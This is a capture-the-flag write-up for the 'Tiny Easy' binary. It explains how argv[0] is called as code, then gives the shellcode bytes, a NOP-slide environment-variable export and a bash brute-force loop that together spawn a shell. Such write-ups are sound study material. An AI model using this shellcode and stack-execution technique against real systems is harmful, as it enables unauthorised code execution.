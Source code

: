 # Tiny Easy
## Introduction
We are given a tiny binary that raises a segmentation fault when it is running.
We should figure out how to get the flag.

## Analysis
As can be seen in IDA, the binary contains very little.
Highlighted in the image, are the entry point address of the program (in the ELF header) and the code in the entry point.

![img_1.png](img_1.png)

The `pop eax` line actually puts `argc` into eax.
The `pop edx` line puts a pointer to `argv[0]` into `edx`, Then `mov edx, [edx]` copies the first 4 bytes of `argv[0]` into edx,
and then we have `call edx`.
When I run the binary, `call edx` jumps to 0x6d6f682f, which is the start of "/home/...", i.e. `argv[0]`.
The above address is not really defined and causes the segmentation fault.

Let's run `./tiny_easy 1111 2222 3333` and use GDB to better illustrate the stack of the binary.

![img_2.png](img_2.png)

As we can see, the stack indeed starts with `argc`, then continues to `argv[]` and then we have the environment variables.

No mitigations are enabled for the binary:
![img_3.png](img_3.png)

## Exploitation
We can control the jump in `call edx` by controlling `argv[0]`.
We can execute code on the stack, so we can place a shellcode that enables a shell on the stack via an environment variable.

We'll use `exec -a <address> tiny_easy` to control `argv[0]`.

![img_5.png](img_5.png)

## NOP Slide
From repetitively looking at the stack of the executable, the address of the stack is bigger than 0xFF800000.
We'll define the jump address arbitrarily - 0xFFA03030.
But then how can we guarantee that we'll land exactly in the start of the shellcode?
The answer is that the probability for this is very low, but we can drastically increase our chances by creating a NOP slide,
which means that we'll pad our shellcode with a large amount of NOP opcodes before actually starting the shellcode.
Then, all we need it to jump to somewhere in the NOP slide in order to succeed.
Arbitrarily, we'll choose to pad with 0x200000 NOPs before our shellcode.

When I tried the above arbitrary constants, I received an annoying error - "Argument list too long".
After reading, I discovered that the maximum theoretical size of environment variable is 32,760 bytes.
Therefore, I decided to reduce the NOP slide size to 30,000.
I knew that with enough brute-forcing this should work, but that many tries are necessary, so I used bash to do the brute-forcing.

## Summary
1. Craft the shellcode - `asm(shellcraft.i386.linux.sh()) -> b"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"`
2. Pad the shellcode with 30000 NOPs and export it - `export MY_VAR=$(python -c 'print(b"\x90" * 30000 + b"jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80")')`
3. Bruteforce running the executable with the modified `argv[0]` - `for i in {1..1000}; do bash -c "exec -a $(python -c 'print("\x30\x30\xa0\xff")') ./tiny_easy"; done`